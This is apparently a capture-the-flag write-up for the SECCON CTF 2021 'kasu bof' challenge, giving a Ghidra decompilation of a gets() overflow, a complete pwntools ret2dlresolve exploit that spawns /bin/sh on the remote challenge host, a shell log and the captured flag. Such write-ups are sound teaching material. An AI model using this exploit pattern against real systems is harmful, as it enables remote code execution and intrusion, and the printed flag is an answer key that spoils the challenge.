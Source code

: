 # SECCON CTF 2021

## kasu bof

> 112
>
> Do you understand return-to-dl-resolve attack on 32-bit?
> 
> `nc hiyoko.quals.seccon.jp 9001`
>
> Author: ptr-yudai
> 
> [`kasu_bof.tar.gz`](kasu_bof.tar.gz)

Tags: _pwn_ _x86_ _bof_ _remote-shell_ _ret2dlresolve_


## Summary

LOL, this is the first time I read the challenge description, but yes, this an easy 32-bit _return-to-dl-resolve_ challenge.

> I'm not going to cover all the internals or details of ret2dlresolve (in this write up, I'm working on a future article), however here are two good reads:
>
> [https://syst3mfailure.io/ret2dl_resolve](https://syst3mfailure.io/ret2dl_resolve)  
> [https://gist.github.com/ricardo2197/8c7f6f5b8950ed6771c1cd3a116f7e62](https://gist.github.com/ricardo2197/8c7f6f5b8950ed6771c1cd3a116f7e62)
> 
> The challenge author also posted his [solution](solver.py) to the SECCON CTF 2021 Discord in #pwn.  I'm unaware of any external link, so I've included as part of this writeup.  This is a very good resource to follow if you want to understand how to roll-your-own.


## Analysis

### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

At least three conditions must be met for _ret2dlresolve_, No PIE (or a base process leak), No canary (or a canary leak, or some other way to write down stack), and Partial RELRO.  We're all clear here.


### Decompile with Ghidra

```c
undefined4 main(void)
{
  char local_88 [128];
  undefined4 local_8;
  
  local_8 = 0;
  gets(local_88);
  return 0;
}
```

`gets` and the lack of mitigations above = easy shell with _ret2dlresolve_.

*Are there other methods?*

Perhaps, however there's not a lot to work with.  No leaks, and nothing else in the GOT.  IOW, we're blind, no output until we get a shell.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./kasu')

dl = Ret2dlresolvePayload(binary, symbol='system', args=['/bin/sh'])

rop = ROP(binary)
rop.gets(dl.data_addr,len(dl.payload))
rop.ret2dlresolve(dl)

if args.REMOTE:
    p = remote('hiyoko.quals.seccon.jp', 9001)
else:
    p = process(binary.path)

payload  = b''
payload += 0x88 * b'A'
payload += rop.chain()
payload += b'\n'
payload += dl.payload

p.sendline(payload)
p.interactive()
```

Almost straight from: [https://docs.pwntools.com/en/stable/rop/ret2dlresolve.html](https://docs.pwntools.com/en/stable/rop/ret2dlresolve.html).

All we needed to figure out is the `0x88` (end of the stack frame where the return address is), and we get this for free from Ghidra (.e.g `local_88`).


```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/seccon2021/kasu/kasu'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Loaded 11 cached gadgets for './kasu'
[+] Opening connection to hiyoko.quals.seccon.jp on port 9001: Done
[*] Switching to interactive mode
$ id
uid=999(pwn) gid=999(pwn) groups=999(pwn)
$ ls -l
total 20
-r-xr-x--- 1 root pwn 15336 Dec  8 14:09 chall
-r--r----- 1 root pwn    36 Dec  8 14:09 flag-4f8e964cf95b989f6def1afdfd0e91b7.txt
$ cat flag*
SECCON{jUst_4_s1mpL3_b0f_ch4ll3ng3}
```
